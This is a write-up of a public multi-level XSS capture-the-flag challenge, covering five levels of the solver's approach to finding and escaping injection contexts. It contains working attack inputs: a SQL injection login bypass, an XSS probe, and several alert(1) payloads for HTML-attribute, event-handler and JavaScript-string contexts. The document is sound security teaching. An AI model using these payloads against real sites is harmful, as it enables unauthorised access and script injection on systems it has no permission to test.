 ```yaml
---
title: XSS introduction and multi-level challenge writeup.
published: true
author: Maciej Piechota
---
```


A few months ago I took place in multi-level XSS challenge organized by @haxel0rd and later was asked about explaining my solution. The challenge was divided into 10 levels with increasing difficulty. Almost each level was about exploiting different XSS context, which was great in terms of learning sake. I will describe each solution and some schematics behind them, so let's dive in.

## The challenge:

<center><twitter-widget class="twitter-tweet twitter-tweet-rendered" id="twitter-widget-0" style="position: static; visibility: visible; display: block; transform: rotate(0deg); max-width: 100%; width: 500px; min-width: 220px; margin-top: 10px; margin-bottom: 10px;" data-tweet-id="1116822993085325312"></twitter-widget>
  <blockquote class="twitter-tweet" data-link-color="#E95F28">
    <p lang="en" dir="ltr">Can you beat all 10 levels..?
#XSS #WAF #FilterEvasion #Challenge, from Beginner => Hard, pure XSS, no fantasy vectors. Will post first 7 solvers on my twitter. The challenge starts at login (no-xss), good luck. #Hacking #HackIt #CTF https://u.nu/hackit CodedBy: @ObscurityApp
        💪 <a href="https://t.co/VLSJ4mPZqy">pic.twitter.com/VLSJ4mPZqy</a></p>&mdash; haxel0rd (@haxel0rd) <a href="https://twitter.com/haxel0rd/status/1116822993085325312">April 12, 2019</a></blockquote>
</center>
<script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>

Logging into the challenge was an entry obstacle itself. It was a simple SQL Injection - `admin' OR 1=1-- t` - did the job, bypassing the authentication.

## Brief XSS methodology:

To start exploiting XSS you first have to find out if and where our input is reflected on the attacked page(this is so-called `injection context`). Then, when we found that, we have to check what transformations are being made to our payload by the application, giving us the information how CSS/HTML/JavaScript sensitive characters are treated and what possibilities to inject malicious code are left unsecured. To do this in one request let's use an XSS probe:
`aaaaaa'">xsshere`
I type this to the interesting input field, submit, and check the response for `xsshere` string as shown in Lvl01 below.
The probe is sent via HTTP/S proxy like Burp and with opened Developer Console in browser to observe JavaScript errors.

## Lvl01:

By following the steps from “Brief XSS methology” we can see here that our probe broke the rendering of the HTML - this is usually a good sign for pentester and not that good for a developer :) You can read it as: some of the probe’s characters  are not properly encoded/escaped  before returning them to the client and therefore interpreted by a browser as a legit code, having an influence on the final look/JavaScript workflow of the page.

{% include figure.html file="/assets/lvl01.png" alt="/assets/lvl01.png" max-width="500px" number="1" caption="Localizing the injection context." %}
                                                                                                                                  
```html
<input type="text" class="form-control input-lg" id="search-church" id="xss" value='aaaaaa'">xsshere' name="xss" placeholder="xss">
```

`’` character closed an attribute, `>` closed the tag and the rest was rendered as text.

We have here `HTML attribute injection context`. The HTML attributes can be enclosed by characters: `'`, `"` or they can appear without anything - up to the first white character so injecting `'` will close the attribute and allow us to add a new one or just close HTML tag with `>` character. This happened in the example above - `input` tag was closed, so we can inject a new tag. To achieve our goal - execute `alert(1)` we have to inject `<script>alert(1)</script>`.

Final payload:

Add a dummy attribute value inside an input, close the attribute, close the input tag, add a script tag with JavaScript code.

`x'><script>alert(1)</script>` which translates to:

```html
<input type="text" class="form-control input-lg" id="search-church" id="xss" value='x'><script>alert(1)</script>' name="xss" placeholder="xss">
```

{% include figure.html file="/assets/alert.png" alt="/assets/alert.png" max-width="500px" number="2" caption="Profit." %}

## Lvl02:

In level 2, the probe from Lvl01 also ended up in the `HTML attribute context` but this time the `>` character is properly escaped to its HTML equivalent: `&gt;` which makes it hard to escape from the context but it doesn't mean we can't inject new attributes. To achieve our goal we have to use HTML events which as value takes JavaScript.

{% include figure.html file="/assets/lvl2.png" alt="/assets/lvl2.png" max-width="500px" number="3" caption="Level 02." %}

```html
<div class='aaaaaa'&quot;&gt;xsshere'>like Aldus PageMaker including versions of Lorem Ipsum.</div>
```
Solution:

`x' onmouseover=alert(1) x`

and this is how our payload looks in HTML:

```html
<div class='x' onmouseover=alert(1) x''>like Aldus PageMaker including versions of Lorem Ipsum.</div>
```
`alert(1)` will be executed after triggering the `onmouseover` event. It is important to take care of the last `'` character simply adding a dummy `x` attribute.

## Lvl03:

Sometimes the input to the application is passed via URL, we have to identify the parameters which are used in the JavaScript source code(static analysis).

{% include figure.html file="/assets/lvl3.png" alt="/assets/lvl3.png" max-width="500px" number="4" caption="Level 03." %}

`$('#hmmm').append("<li ${_text}>Hello world!</li>");`

the above line is vulnerable to XSS, again the `HTML attribute context` but we can't use any of interesting characters because of filtering:

```javascript
function escapeOutput(toOutput){
    return toOutput.replace(/\&/g, '&amp;')
        .replace(/\</g, '&lt;')
        .replace(/\>/g, '&gt;')
        .replace(/\"/g, '&quot;')
        .replace(/\'/g, '&#x27')
        .replace(/\//g, '&#x2F');
}
```

Luckily we do not have to use them. Browsers are so kind that they try to fix "mistakes" for us:

Payload:
`xss=onmouseover=alert(1)`

the value `alert(1)` of the event is automatically enclosed with `"` character.

{% include figure.html file="/assets/lvl3_1.png" alt="/assets/lvl3_1.png" max-width="500px" number="5" caption="Level 03 - Payload." %}

## Lvl04:

This level was solved with an unintended solution and introduces the next injection context - `JavaScript context`.

{% include figure.html file="/assets/lvl4.png" alt="/assets/lvl4.png" max-width="500px" number="6" caption="Level 04 - JavaScript context." %}

Developer console shows the following JavaScript error:

{% include figure.html file="/assets/lvl4_1.png" alt="/assets/lvl4_1.png" max-width="500px" number="7" caption="Level 04 - JavaScript error." %}

This tells us that the execution of the JavaScript was interrupted because of the injected payload. In a scenario like this we usually want to:

- Close all opened strings, parentheses, remember that the JavaScript before injection must be "satisfied".
- Add `;` as we want to start new instruction.
- alert(1)
- Deal with code that was there before injection making it as a comment with `//`.

Solution:
`xsshere'); alert(1)//`

Intended solution:

{% include figure.html file="/assets/lvl4_2.png" alt="/assets/lvl4_2.png" max-width="500px" number="8" caption="Level 04 - Intended solution." %}

## Lvl05:

This level is very similar to the previous one - we are once again in the `JavaScript context`.

{% include figure.html file="/assets/lvl5.png" alt="/assets/lvl5.png" max-width="500px" number="9" caption="Level 05 - JavaScript variable context." %}


```javascript
function escapeOutput(toOutput){
    return toOutput.replace(/\&/g, '&amp;')
        .replace(/\</g, '&lt;')
        .replace(/\>/g, '&gt;')
        .replace(/\"/g, '&quot;')
        .replace(/\'/g, '&#x27')
        .replace(/\//g, '&#x2F');
}

let input = `aaaaa'">xsshere`;
$("#hello-xss").append(`Nothing intresting found? Input = '${escapeOutput(input)}'`);
```

But there is a filter - we can't start a new `script` tag. There are three strings literals in JavaScript: `'`, `"` and `` ` ``. Following schematics from the previous level, we craft a payload like: ``xsshere ` ; alert(1)//`` and that is the solution for the current level.




## TBC

The rest of 10 levels to be continued.

## Credits:

@haxel0rd 
@ObscurityApp for creating the tasks


